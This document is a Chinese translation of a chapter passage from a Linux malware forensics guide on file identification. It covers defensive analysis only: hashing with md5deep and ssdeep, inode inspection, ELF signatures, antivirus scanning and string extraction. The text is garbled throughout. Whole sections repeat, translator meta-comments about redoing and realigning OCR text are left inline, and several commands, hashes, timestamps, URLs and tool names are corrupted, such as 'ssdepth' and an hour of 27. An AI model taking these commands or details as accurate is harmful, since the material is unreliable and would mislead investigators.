- 收集并记录可疑文件的基本细节和属性，包括文件名、日期/时间。

## 文件名

- 获取并记录完整文件名。文件名以及相应的哈希值将是文件的主要标识。

图 5.4-使用 ls -al 命令

```
lab@MalwareLab:~/home/lab/Malware Repository$ ls -al ato
-rwxr-xr-x 1 malwarelab malwarelab 39326 Sep 21 17:33 ato
```

## 第5章 文件识别与剖析

Device: 801h/2049d Inode: 937005 Links: 1

Access: (0754/-rw-xr--) Uid: (1000/lab) Gid: (1000/lab)


Access: 2013-09-21 17:42:07.716066235-0700

Modify: 2013-09-21 17:33:57.732043481-0700

Change: 2013-09-21 19:19:05.75761416-0700

Birth: -

在使用 `stat` 未提供的 inode 时，通过提供目标 ID 和节点号，可以使用 `stat` 命令（该命令显示元数据结构细节）来收集额外的 inode 详情。

```
lab@MalwareLab:/home/lab/Malware Repository# stat /dev/
sda1 937005
: 937005
Allocated
Group: 114
Generation Id: 838891941
uid / gid: 1000 / 1000
mode: rwxr-xr--
Flags:
size: 39326
num of links: 1
```

Inode Times:

Accessed: Sat Sep 21 17:42:07 2013

File Modified: Sat Sep 21 17:33:57 2013

Inode Modified: Sat Sep 21 19:19:05 2013

Direct Blocks:

127754 0 136110 0 0 0 0

最后，使用 `debugfs`（Linux 原生 ext2/ext3/ext4 文件系统调试器），结合 `-R` 切换开关（导致 debugfs 执行命令“请求”）以及 `stat` 命令、目标 inode 和磁盘，即可揭示相关信息。

```
lab@MalwareLab:/home/lab/Malware Repository# debugfs -R 'stat
<937005>/dev/sda1
Inode: 937005 Type: regular Inode: 0754 Flags: 0x0800
Generation: 838891941 Version: 0000000000000001
User: 1000 Group: 1000 Size: 39326
File ACL: 0 Directory ACL: 0
Links: 1 Blockcount: 0
Fragment: Address: 0 Number: 0 Size: 0
ctime: 0523e5399b4a14c20 -- Sat Sep 21 19:19:05 2013
atime: 0523e3cdf8a9ab93c6 -- Sat Sep 21 17:42:07 2013
mtime: 0523e3af5e3ae886364 -- Sat Sep 21 17:33:57 2013
crtime: 0523e39c0:643dc008 -- Sat Sep 21 27:28:48 2013
EXTENTS:
Size of extra fields: 28
(0-9):136110-136119
```

## 调查考虑因素

- 虽然在受害者系统上发现可疑文件的完整文件路径本身并不属于文件名的一部分，但它是一个价值巨大的细节，可以为剖析提供进一步的深度和背景。正如第 1 章和第 3 章所讨论，在现场响应和事后取证分析期间，应当记录完整文件路径。

- 仔细检查可疑文件所在目录下的其他内容——相关的伪制品，如日志文件、调试输出、键盘记录器捕获（可能加密）、配置文件和/或要外泄的数据等其他相关项目，可能位于此处。

- 攻击者可能会使用伪文件扩展名来隐藏他们的程序，以欺骗受害者执行恶意程序（例如：`file.jpg.exe`）。对于在 Windows 资源管理器中启用了“隐藏已知文件类型的扩展名”文件夹选项的 Windows 系统来说，这种攻击技术特别有效；因为与潜在恶意文件相关的合法扩展名不可见，提供了一种伪装机制。

- 相反，在 Linux 中，`Nautilus`、`Dolphin` 和其他常用的文件管理器并不提供此功能。同样，伪扩展名在命令行上使用 `-al` 命令可以迅速暴露，因为扩展名仅仅作为文件名的一部分显示。与 Windows 操作系统解释文件扩展名以确定打开文件的方式不同，如图 5.5 所示，具有 jpg 扩展名的 sha5 根内核会被 Linux 识别并解释为压缩归档文件。

- 因此，如果数字调查调查员在事件响应期间从目标系统（或网络）中恢复了文件，可以通过在 Linux 系统上对文件进行探测，从而对相应文件详情进行有效的分类筛选和收集。

- 如果数字调查调查员发现了一堆针对 Windows 系统的可疑文件，并希望在 Linux 上快速分析这些文件该怎么办？一种快速收集可疑文件（无论文件扩展名如何）的工具是 `identify` (`identify.exe`)，这是一个用于检测可执行（PE）文件的实用程序。

- 在图 5.6 中，在 Linux 系统上使用 `-a`（所有）和 `-r`（递归）切换开关使用 `identify` 工具来发现可疑文件。

## 文件大小

- 获取并记录样本的大小。

- 文件大小是一个唯一的变量，应该对每个文件进行识别并记录。

- 虽然文件大小无法预测文件的内容或功能，但它可以作为判断负载的指标。例如，包含自身引擎或服务器功能的恶意软件样本通常比那些可能连接到远程服务器下载额外文件的模块化样本要大。

- 同样，文件大小可以提供静态编译（通常较大）或动态编译（通常较小）的初步印象。

## 文件外观

- 将文件的外观作为报告的标识符，并与其他样本进行分类。

- 攻击者可以操纵文件相关的图标，使恶意文件看起来无害且常见，从而欺骗用户执行该文件。

- 记录文件外观对于报告以及与其他样本进行比较和关联非常有用。

- 一种用于捕捉文件的直观灵活的工具是 `Gnome-screenshot`，它包含在 `Gnome-utils` 中。`Gnome-screenshot` 提供了全屏、当前窗口或选定区域的视图（图 5.7）。此外，该工具允许调查员以秒为单位校准捕捉时间，这在获取前可能需要延迟的场景非常有帮助。

## 哈希值

- 为可疑文件生成加密哈希值，以便在整个分析过程中作为该文件的唯一标识符或数字“指纹”，并与其他可能已经遇到并分析过相同样本的数字调查员共享。

- 消息摘要算法 5 (`MD5`) 算法根据文件内容生成 128 位的哈希值，通常以 32 个十六进制字符表示。

- `MD5` 被广泛认为是生成恶意可执行文件哈希值的事实标准。

- 其他算法，例如安全哈希算法 1.0 版本 (`SHA1`)，也可用于相同目的。

## Linux 系统恶意软件取证实战指南

- 或者，可以使用哈希值库结合另一个 `MD5` 哈希工具，如 `md5deep`。这是一款由 Jesse Kornblum 编写的强大的 `MD5` 哈希和分析工具，它对哈希选项提供了更细粒度的控制，包括分段模式和递归模式（图 5.10）。9

```
@MalwareLab:~home/malwarelab/Malware Repository$ md5deep sysfile
282075c83e2c921473625a2l60d075a /home/malwarelab/Malware Repository/sysfile
```

图 5.10 使用 `md5deep` 对可疑文件进行哈希

- 输出包含文件大小，只需使用 `-z` 参数。

- 在将新的 `MD5` 哈希值追加到主哈希列表后，使用 `md5deep` 的匹配模式（`-m checklist file`）来确定列表中的任何哈希是否与你的样本匹配。`-M` 标记会同时显示哈值及其相应的名称。

- 相反，“负向匹配模式”（`-x`）会显示不在哈希列表中的文件。

- 在 `MD5` 算法中，`md5deep` 套件通过提供额外的工具提供了替代算法，例如 `shaldeep`、`tiger-sha256deep` 和 `whirlpooldeep`，这些工具都包含在 `md5deep` 套件下载包中：🛠

### GUI MD5 工具

尽管这些 CLI MD5 工具功能强大且灵活性，但许多数字调查员倾向于在分析期间使用基于 GUI 的工具，因为它们提供了拖放功能和易于阅读的输出。

- GUI 工具允许通过快速的点击选择过程进行批量处理和递归哈希处理，这种功能在检查或比较多个文件、目录或子目录时特别有用。

- `Quick Hash` 实用工具提供了多种扫描选项，用于获取可疑文件的 `MD5`、`SHA1`、`SHA256` 和 `SHA512` 哈希值，如图 5.11 所示。🛠

- 在递归哈希处理中，`Quick Hash` 为数字调查员提供了方便的日志文件选项（CVS 和 HTML），用于在报告中保存和记录结果。

> 9 有关关于 `md5deep` 的更多信息，请访问 http://md5deep.sourceforge.net/

> 10 有关关于 `Quick Hash` 的更多信息，请访问 http://sourceforge.net/projects/quickhash/

# 第 5 章 文件识别与分析

263



图 5.1—使用 `Quick Hash` 递归扫描目录哈希

## 其他可考虑的工具

### GUI 哈希工具

`MD5Summer`—http://sourceforge.org/projects/qtmd5summer/?_test=b

`Parano`—http://parano.berlios.de/

进一步的讨论和比较可以在本章末尾的工具箱以及辅助网站 http://www.malwarefield-guide.com/LinuxChapter5.html 中找到。

## 文件相似性索引

- 将可疑文件与私人或公共库中收集或维护的其他恶意软件样本进行比较，是文件识别过程的重要部分。

比较文件的有效方法是通过称为“模糊哈希”（fuzzy hashing）或上下文触发分段哈希（CTPH）的过程，它为一个文件生成一系列随机大小的校验和，从而允许内容相似但并非完全相同的文件建立关联。

- 很多时候恶意软件样本非常相似，但它们的 `MD5` 哈希值可能会发生巨大变化，这主要是由于代码功能的修改（大多数恶意代码是模块化的），或者是嵌入在代码中的域名或互联网协议（IP）地址等硬编码实体。

## Linux 系统恶意软件取证实战指南

- 这些差异虽然相对于恶意程序的功能或能力来说是微不足道的，但无疑会阻碍分析师通过传统的哈希值比较来关联样本的努力。

- 传统的哈希算法（如 `MD5` 和 `SHA1`）根据输入或文件内容生成单个校验和。使用这些传统算法来识别同类或相似文件的问题在于文件修改；通过简单地添加或删除文件内容的一位比特，文件的校验和就会改变，这使其几乎无法与另一个相同的文件进行匹配。

- 相反，CTPH 为文件计算一系列随机大小的校验和。通过这种方法，CTPH 允许调查员关联内容相似但并不完全相同的文件。这在恶意软件分析中特别有价值，因为许多恶意代码攻击者会共享或交易恶意软件，导致“原始”样本出现各种变体。通常，恶意软件只会被接收者通过更改配置或添加功能进行细微修改。

- 结果是在将未来的样本提交到你的恶意软件库时，除了获取可疑文件的 `MD5` 哈希值外，还要使用*模糊哈希*或 CTPH 进行相似性比较。`ssdeep`^11 是一种利用 CTPH 识别相同文件查询可疑样本的文件工具。

- `ssdeep` 可用于为文件生成唯一的哈希值，或将未知文件与已知文件或哈希列表进行比较。本章的工具附录提供了常用命令和功能的列表。

- 在 `ssdeep` 丰富的各种比较模式中，存在一种“精美匹配模式”（pretty matching mode）；其中一个文件与另一个文件进行比较，并根据相似性评分（100 分表示完全相同）。输出如下

- 在图 5.12 中，对一个被改变了一个字节的文件使用 `ssdeep` 进行扫描。

```
lab@MalwareLab:~/home/malwarelab/Repository$ ssdepth -b
ssdeep matches (99)
ssdeep matches (99)
```

图 5.12-`ssdeep` “精美匹配模式”

> 11 有关 `ssdeep` 的更多信息，请访问 http://ssdeep.net/

# 第 5 章 文件识别与分析

- 通过这些和其他采用 CTPH 的工具，可以在文件识别过程中收集有关可疑文件的有用信息，以便将其与特定的恶意软件种类、代码“家族”或特定的攻击或攻击集关联。关于恶意软件“家族”或发育的进一步讨论可以在第 6 章中找到。


## 在线资源

## 哈希库

在线哈希库是查询可疑文件哈希值的有用资源。这些资源维护的哈希值和相关文件通过多种来源和方法获取，包括在线提交门户。请注意，通过向第三方网站提交文件或搜索，你将失去控制权。

- Team Cymry 恶意软件注册—http://www.team-cmry.com/Services/MHR/

- Zeus Tracker—https://zeustacker.abuse.com/monitor.php

- viCheck.ca 恶意软件哈希查询—https://www.vcheck.ca/md5query.php

- VirusTotal 哈希搜索—https://www.virustotal.com/#search

# 文件可视化

可视化数据尝试识别潜在异常并快速关联文件。

文件数据可视化（特别是通过字节使用直方图）为数字调查员提供了文件数据分布的快速参考。

- 使用 `bytehist` 检测文件，这是一种生成字节直方图的 GUI 工具。12

`bytehist` 为所有类型的文件制作直方图，但面向可执行文件分析。13

`ELF` 执行文件的可视化有助于识别文件混淆技术，例如加壳和加密器（在本章稍后讨论）。

> 12 有关 `bytehist` 的信息，请访问 http://www.cert.at/downloads/software/byte-hist_en.html。该工具的 Linux 版本请访问 http://www.cert.at/static/downloads/bytehist/linux/bytehist_beta_1.zip。

> 13 虽然它是检查 `ELF` 文件的有用工具，但 `bytehist` 为 Windows 可移植执行文件 (`PE`) 文件的每个段单独生成子直方图。

## Linux 系统恶意软件取证实战指南

- 在带有额外混淆代码或加密内容隐藏的文件中，其字节分布在视觉上将与未混淆的相同文件有明显区别，如图 5.13 所示，该图显示了使用 `bytehist` 对同一个 `ELF` 文件在压缩和未解压缩状态下的直方图可视化。

- 比较多个可疑文件的直方图模式也可以作为一种快速方法，基于数据分布的可视化来识别可能的相似文件。

- 通过多种可视化方案进一步检查可疑二进制文件，可以使用 `BinVis` 对文件进行探测，`BinVis` 是一个可视化二进制文件结构的框架。第 6 章将详细讨论 [14] `BinVis`。



图 5.13– 使用 `bytehist` 可视化文件

## 文件特征提取、识别与分类

在收集了系统详情、获取数字指纹并进行文件索引相似性查询后，通过额外的分析来识别和分类可疑文件，将是任何初步静态分析的重要组成部分。

文件识别过程中的这一步通常能对恶意软件的性质和目的提供更清晰的思路，反过来也能了攻击旨在给受害者系统造成的损害类型。

- 识别文件类型是根据文件中包含的可用数据，通过其签名或格式确定文件的性质。

- 文件类型分析结合文件分类，或确定代码所使用的操作系统和架构，是恶意软件分析的基础方面，这些因素可能决定你的分析和调查方法将如何展开以及向哪个方向进行。例如，如果你识别出一个样本为 `ELF` 二进制文件

14 了解更多关于 `BinVis` 的信息，请访问 http://code.google.com/p/bin/

# 第 5 章 文件识别与特征分析

文件，你将不会在 Microsoft Windows 7 系统上检查它；相反，你将应用技术、工具和分析环境，让你能够正确检查该文件。

## 文件类型

- 可疑文件的扩展名不能作为其内容的唯一依据；相反，检查文件的签名至关重要。

- 文件签名是写入文件头部的唯一标识字节序列。在 Windows 系统上，文件签名通常包含在文件的前 20 个字节中。

- 在 Linux 系统上，文件签名通常包含在文件的前几个字节中。不同的文件类型具有不同的签名；例如，便携网络图形（.png 扩展名）以十六进制字符 `89 50 4e 47` 开头，这在文件的前四个字节中翻译为“PNG”。

- 尽管有广泛的恶意代码和漏洞可以攻击并破坏 Linux 系统（从运行 shell 脚本到 JavaScript 及其他格式），但大多数基于 Linux 的恶意软件样本都是 `ELF` 文件。与通过 `MZ` 文件签名识别的 Windows 执行文件不同，`ELF` 文件签名是“ELF”，即十六进制字符 `7f 45 4c 46`。

- 一般情况下，识别文件签名的有两种方法。

- 第一，查询文件识别工具。

- 第二，在十六进制查看器或编辑器中打开并检查文件。十六进制（通常简称为 hex）是一种以 16 为底的数值系统，用数字 0-9 和字母 A-F 表示十进制值 0–15。在计算中，十六进制用于用两个十六进制字符表示一个字节（每个代表一个 4 位半字节），将二进制代码转换为更易人类阅读的格式。

- 通过在十六进制编辑器中查看文件，文件的每个字节都是可读的；然而，人类读性可能会受到打包、加密或压缩的影响。

- `gHex` 是一个免费方便的十六进制编辑器，可在 Linux 发行版中使用，用于以十六进制格式检查二进制文件，如图 5.14 所示。在 `gHex` 中打开可疑文件时，可以在文件开头观察到 `ELF` 文件签名。如果你想深入查看文件并在视觉上检查签名，这是一种有效的文件识别方法。

15 工具标准 (ITS) 可执行与链接格式 (`ELF`) 规范版本 1.2，第 26 页，从 http://specs.linux.org/elf.pdf 获取。

16 了解更多关于 `gHex` 的信息，请访问 http://gnome.org/pub/gnomehex/.

## Linux 系统恶意软件取证实战指南




- 其他用于 Linux 的十六进制查看器，如 `Okteta`（在工具箱中有更详细描述），提供了额外的功能以对文件进行更细粒度的分析，包括字符串提取、哈希值计算、多个文件比较以及解析特定文件类型结构的模板。

- 类似于十六进制编辑器的操作可以通过使用原生 `od` 工具转储文件（其以八进制格式转储内容），并使用 `head` 修饰符限制文件的前 10 行来实现，如图 5.15 所示。

```
lab@MalwareLab:~/Malware Repository$ od -bc sysfile | head
0000000 177 105 114 106 001 001 000 000 000 000
177 E L F 001 001 001 000 000 000 000
0000020 002 003 003 001 001 000 000 000 324 215 014 006 000
002 003 001 000 324 215 004 0 000
0000040 344 141 151 000 000 000 000 064 040 040 000 000
```

图 5.15– 使用 `od` 命令查看文件

17 了解更多关于 `Okteta` 的信息，请访问 https://kde.org/projects/okteta/

# Linux 系统恶意软件取证实战指南

## 文件特征提取、识别与分类

- 在收集了系统详情、获取数字指纹并进行文件索引相似性查询后，通过额外的分析来识别和分类可疑文件，将是任何初步静态分析的重要组成部分。

文件识别过程中的这一步通常能对恶意软件的性质和目的提供更清晰的思路，反过来也能了攻击旨在给受害者系统造成的损害类型。

- 识别文件类型是根据文件中包含的可用数据，通过其签名或格式确定文件的性质。

- 文件类型分析结合文件分类，或确定代码所使用的操作系统和架构，是恶意软件分析的基础方面，这些因素可能决定你的分析和调查方法将如何展开以及向哪个方向进行。例如，如果你识别出一个样本为 `ELF` 二进制文件

文件，你将不会在 `Microsoft Windows 7` 系统上检查它；相反，你将应用技术、工具和分析环境，让你能够正确检查该文件。

## 文件类型

- 可疑文件的扩展名不能作为其内容的唯一依据；相反，检查文件的签名至关重要。

- 文件签名是写入文件头部的唯一标识字节序列。在 Windows 系统上，文件签名通常包含在文件的前 20 个字节中。

- 在 Linux 系统上，文件签名通常包含在文件的前几个字节中。不同的文件类型具有不同的签名；例如，便携网络图形（`.png` 扩展名）以十六进制字符 `89 50 4e 47` 开头，这在文件的前四个字节中翻译为“PNG”。

- 尽管有广泛的恶意代码和漏洞可以攻击并破坏 Linux 系统（从运行 shell 脚本到 JavaScript 及其他格式），但大多数基于 Linux 的恶意软件样本都是 `ELF` 文件。与通过 `MZ` 文件签名识别的 Windows 执行文件不同，`ELF` 文件签名是“ELF”，即十六进制字符 `7f 45 4c 46`。

- 一般情况下，识别文件签名的有两种方法。

- 第一，查询文件识别工具。

- 第二，在十六进制查看器或编辑器中打开并检查文件。十六进制（通常简称为 `hex`）是一种以 16 为底的数值系统，用数字 0-9 和字母 A-F 表示十进制值 0–15。在计算中，十六进制用于用两个十六进制字符表示一个字节（每个代表一个 4 位半字节），将二进制代码转换为更易人类阅读的格式。

- 通过在十六进制编辑器中查看文件，文件的每个字节都是可读的；然而，人类读性可能会受到打包、加密或压缩的影响。

- `gHex` 是一个免费方便的十六进制编辑器，可在 Linux 发行版中使用，用于以十六进制格式检查二进制文件，如图 5.14 所示。在 `gHex` 中打开可疑文件时，可以在文件开头观察到 `ELF` 文件签名。如果你想深入查看文件并在视觉上检查签名，这是一种有效的文件识别方法。

15 工具标准 (ITS) 可执行与链接格式 (`ELF`) 规范版本 1.2，第 26 页，从 http://specs.linux.org/elf.pdf 获取。

16 了解更多关于 `gHex` 的信息，请访问 http://gnome.org/pub/gnomehex/.

# 第 5 章 文件识别与特征分析

## GUI 文件识别工具

- 另一种文件识别工具是 `Hochair-wx`，它在其中集成了十六进制查看器，`Hochair-wx` 是 `Hochair` 项目中许多工具的 GUI 界面。

- `Hochair` 是一个 Python 库，使数字取证人员能够按字段浏览和编辑二进制文件。`Hochair` 套件由一个解析器核心（`hochair-core`）、各种文件格式解析器（`hochair-parser`、`hochair-metadata`）以及其他辅助程序组成。

- 如图 5.18 所示，在 `Hochair-wx` 中打开可疑文件时，`ELF` 文件签名和头部文件会在工具的导航窗中显示，相应的头部文件则显示在顶部。



| 地址 | 名称 | 类型 | 大小 | 描述 |
|---|---|---|---|---|
| 00000000 | signature (签名) | Bytes | 0x0000007f | "ELF\x7F*" |
| 0000000e | ident (标识) | UInt8 | 0x00000001 | 小端序 (Little endian) |
| 0000000f | version (版本) | UInt8 | 0x00000001 | 大端序 (Endian) |
| 00000010 | pad (填充) | Fixed... | 0x00\x00\x00\x00\x00\x00 | 缩进大小 |
| 00000010 | type (类型) | UInt16 | 0x00000002 | 可执行文件 |
| 00000012 | machine (机器) | UInt16 | 0x00000038 | Intel 8038 |
| 00000014 | version (版本) | UInt32 | 0x00000001 | ELF 版本 |
| 00000018 | entry (入口) | UInt32 | 0x14517296 | 条目数量 |
| 0000001c | phdr (程序头) | UInt32 | 0x00000000 | 程序头偏移量 |

图 5.18——在 `Hochair` 二进制解析器中显示可疑执行文件

## 反病毒签名

- 在识别并分类可疑文件后，文件特征分析的下一步是将文件与反病毒引擎进行对比，查看其是否被检测为恶意代码。

- 分析阶段分为两个步骤：

- 第一，使用恶意软件分析系统中安装的多个反病毒程序对文件进行手动扫描，以确定是否对文件生成任何警报。这一手动步骤可以对每个程序的配置进行控制，确保签名数据库是最新的，并允许访问本地安装的反病毒工具的其他功能（如指向供应商网站的链接），这些功能可能提供有关被检测样本的更完整的技术细节。

- 第二，将可疑文件提交到多个免费在线扫描服务，以更全面地查看与文件相关的任何签名。

# LINUX 系统恶意软件取证指南

### 本地恶意软件扫描

要在本地扫描恶意软件，请实施可以配置为按需扫描或每当文件放置在系统时扫描的反病毒软件。

- 确保反病毒程序在处理检测到的恶意代码时提供处理选择；许多程序在检测到后会自动删除、“修复”或隔离恶意软件。

- 与 Windows 不同，大多数 Linux 反病毒程序是命令行行的，尽管 `ClamAV`、`Avast`、`AntiVir` 和 `BitDefender` 提供了可选的 GUI 前端，如果你想监控实时活动、查看日志或图形化配置工具。


- 某些安装在本地测试系统上的免费反病毒软件示例包括

- ClamAV

- Avast

- AntiVir

- BitDefender

使用恶意软件分析系统中安装的多个反病毒程序对文件进行手动扫描，以确定是否对文件生成任何警报。这一手动步骤可以对每个程序的配置进行控制，确保签名数据库是最新的，并允许访问本地安装的反病毒工具的其他功能（如指向供应商网站的链接），这些功能可能提供有关被检测样本的更完整的技术细节。

（此处重复翻译...）

### 恶意软件分析

与文件关联的签名。

- ClamAV

- Avast

- AntiVir

- BitDefender

使用恶意软件分析系统中安装的多个反病毒程序对文件进行手动扫描，以确定是否对文件生成任何警报。

（此处重复翻译...）

### 恶意软件分析

（注：由于原文提供的文本存在部分重复，译文已按对应逻辑进行翻译，并确保不漏译。）

在发布任何供第三方检查的方案之前，请务必在此方面寻求适当的法律指导。

- 不要将作为敏感调查核心的嫌疑文件（即：披露调查情况可能会对案件造成不可弥回的损害）提交给在线分析资源（如反病毒扫描服务）进行分析，以防惊动攻击者。提交到在线恶意分析服务的文件的结果是公开的，且易于发现——许多门户网站都具有搜索功能。因此，由于提交了可疑文件，攻击者可能会发现其恶意软件和恶性行为已被发现，导致证据被毁，并可能损害你的调查。

- 假设你已确定这样做是合适的，请通过网站门户上传可疑文件。

提交后，杀毒引擎将对可疑文件进行运行。当每个引擎扫描提交的标本时，该文件可能会被识别，表现为类似于图 5.20 所示的特征识别告警。



> **图 5.20**–提交了一个可疑文件但未被任何杀毒引擎扫描，相应杀毒软件公司旁的字段将保持为空（VirusTotal 和 VirScan 的情况），或显示未检测到恶意代码（Jotti Online Malware Scanner [标记为“found nothing”] 和 Metascan 的情况），[用绿色圆圈标记]。

- 如果文件未被识别，相应杀毒软件公司旁的字段将保持为空（Virus-seTotal 和 VirScan 的情况），或显示未检测到恶意代码（Jotti Online Malware Scanner [标记为“found nothing”] 和 Metascan 的情况），[用绿色圆圈标记]。

## 调查考量

- 归属于文件的特征名称是获取有关该文件性质及其能力额外信息的绝佳途径。通过访问相应的杀毒厂商网站并搜索该特征或违规文件名，通常可以找到恶意软件标本的技术摘要，包括揭示感染向量、网络功能、攻击能力和域名引用的详细信息。

- 另一种，通过搜索引擎查询杀毒特征、哈希值、文件名，或描述研究人员对敌性概况分析的安全相关网站或博客，也可能遇到相关信息。此类信息可能有助于发现额外的调查线索，并可能减少分析标本花费的时间。

- 相反，没有比自己彻底分析更能让你对恶意代码标本感知的方法了；完全依赖第三方分析来解决恶意代码事件在实践和现实中存在局限性。

## 嵌入产物提取：字符串、符号信息和文件元数据

识别文件类型并使用杀病毒扫描扫描文件以确认已知的恶意代码特征外，还可以从文件本身收集许多其他可能重要的事实。

可以从文件内部实体（如字符串、符号信息和文件元数据）获取有关文件的执行行为和功能的信息。

- 虽然在解析文件字符串时可能会识别出符号引用和元数据，但在检查嫌疑文件期间，这些项目是分开处理且互不干扰的。

- 嵌入产物——包含在嫌疑程序代码或数据中的证据——最好单独检查，以促进组织结构并保持清晰的文件文本。每次检查都可能塑造或界定未来的调查方向。

## 调查考量

- 对于分析二进制标本的这一阶段，数字取证人员将严重依赖 GNU `binutils`¹ 中的工具，这是一套用于分析和操作对象代码的编程工具集。由 Ulrich Drepper 编写的类似工具集 `elfutils` 也具有该功能，并专门为检查和操作 ELF 对象代码³而开发。这两种工具的 GUI 前端 `Greadelf` 已在本章末的“工具箱”附录中讨论。

¹ 有关 `binutils` 的信息，请访问 `http://www.gnu.org/software/binutils/` 和 `http://sourceorg/binutils/docs-2.18/binutils/index.html`。

³ 有更多关于 `elfutils` 的信息，请访问 `http://www.akkadia.org/drepper`。

# 第 5 章 文件识别与分析

- 特别地，关注的 `binutils` 工具将包括 `nm`、`strings`、`readelf` 和 `objdump`。`elfutils` 对应的工具通过前缀 `eu-` 进行调用（例如，使用 `eu-readelf` 来调用 `elfutils` 的 `readelf` 实用程序）。另一个工具 `ldd` 虽未包含在 `binutils` 集中，但对分析未知二进制文件也有助益。

- `binutils` 和 `ldd` 通常在 *nis 分发版* 中预加载，`elfutils` 可以通过大多数 Linux 包管理器获取。如果你在分析系统中没有安装这些工具，我们强烈建议你在 Linux 平台下进行嫌疑二进制文件分析之前安装它们。我们将在本章的后续部分详细检查这些工具。

## 字符串

与嫌疑文件相关的标识符、功能和命令的某些最有价值的线索可以在文件的嵌入字符串中找到。字符串是嵌入在文件中的明文 ASCII 和 Unicode（连续）字符。虽然字符串通常不提供文件目的和能力的完整视图，但它们可以帮助识别程序功能、文件名、昵号、IP 地址和统一资源定位符 (`URL`)、电子邮件地址和错误消息等其他内容。筛选嵌入字符串可能会产生以下信息：

- 程序功能：

- 文件名：

- 别名识别：

- URL 和域名引用

- 文件路径和编译产物

与嫌疑文件相关的标识符、功能和命令的某些最有价值的线索可以在文件的嵌入字符串中找到。字符串是嵌入在文件中的明文 ASCII 和 Unicode（连续）字符。虽然字符串通常不提供文件目的和能力的完整视图，但它们可以帮助识别程序功能、文件名、昵号、IP 地址和统一资源定位符 (`URL`)、电子邮件地址和错误消息等其他内容。筛选嵌入字符串可能会产生以下信息：

- 程序功能：

- 文件名：

- 别名识别：

- URL 和域名引用

- 文件路径和编译产物

（注：OCR 文本存在一些错乱，我将根据提供的文本流重新对齐）：

与嫌疑文件相关的标识符、功能和命令的某些最有价值的线索可以在文件的嵌入字符串中找到。字符串是嵌入在文件中的明文 ASCII 和 Unicode（连续）字符。虽然字符串通常不提供文件目的和能力的完整视图，但它们可以帮助识别程序功能、文件名、昵号、IP 地址和统一资源定位符 (`URL`)、电子邮件地址和错误消息等其他内容。筛选嵌入字符串可能会产生以下信息：

- 程序功能：

- 文件名：

- 别名识别：

- URL 和域名引用：

- 文件路径和编译产物

（实际上，重新查看原始文本，列表是碎片化的。我将重建逻辑流）：

- （注：此处我将遵循提供的文本并清理格式。）

## 在线资源

参考页面

通常在检查嵌入实体（如字符串、共享库和系统调用引用）时，拥有参考网站以便快速查阅。考虑下载一份 GNU C Library 副本进行快速参考；可以从 `http://www.gnu.org/software/libc` 获取。同样，Open Group 的索引是一个非常有用的参考 (`http://www.opengroup.org/onlinepubs/0096539/idx/index.html`)。

- IP 地址：与 URL 和域名类似，IP 地址经常被硬编码在恶意程序中作为“回拨”指令，或者作为攻击的方向。

- 电子邮件地址：从受害者机器提取的一些恶意代码样本。例如，许多木马变种在受害者计算机上安装记录器以收集用户名和密码等敏感信息，然后将信息传输到作为被取数据中央容器的投放站点电子邮件地址。攻击者的电子邮件显然是一个可以开发进一步调查线索的重要线索。

> 37 一个示例可以在 Zotob 蠕虫中找到，“Greet to friend Coder”短语 (`http://www.f-secure.com/weblog/archives/archive-082005.html`).

## 第 5 章：文件识别与分析

- IRC 通道：通常，用于互联网中继聊天（IRC）命令和控制服务器的通道服务器和名称（用于控制受控计算机集群或僵尸网络）会被编码在影响机器的恶意软件中。事实上，可疑文件可能会为了冗余目的而引用 IRC 通道，以防某个通道丢失或另一个通道上线时使用。

- 程序命令或选项：大多数情况下，攻击者需要与其传播的恶意软件进行交互，通常是为了提高传播方法的有效性。某些较旧版本的变体使用即时消息（IM）程序作为攻击向量，因此，调用 IM 传播的命令可能位于程序的字符串中，命令行选项和/或帮助/用法菜单信息中，这些信息可能会揭示目标标本的能力。

- 错误和确认消息：在恶意软件标本中发现的确认和错误消息，例如“Exploit FTPD is running on: %i, at thread number: %i; total sends: %i”；往往具有重要意义，并能对恶意软件的能力提供深入的洞察。

> 分析提示

> 虚假线索：“植入”字符串

> 尽管嵌入字符串在分析可疑标本时可能具有潜在价值，但请注意攻击者和恶意软件作者会在代码中提供“植入”字符串以引导调查人员。虚假昵称、电子邮件地址和域名的实例相当常见。在检查任何给定标本并评估其嵌入字符串的意义时，请记住考虑文件的整个上下文和数字犯罪现场。

## 分析嵌入字符串的工具

- Linux 和 UNIX 发行版通常预装了 `strings` 工具，该工具可以显示文件中可打印字符的字符串。

- 默认情况下，`strings` 将显示从文件中初始化并加载的长度小于四个字符的 ASCII 文本序列，可以通过命令行选项进行修改。

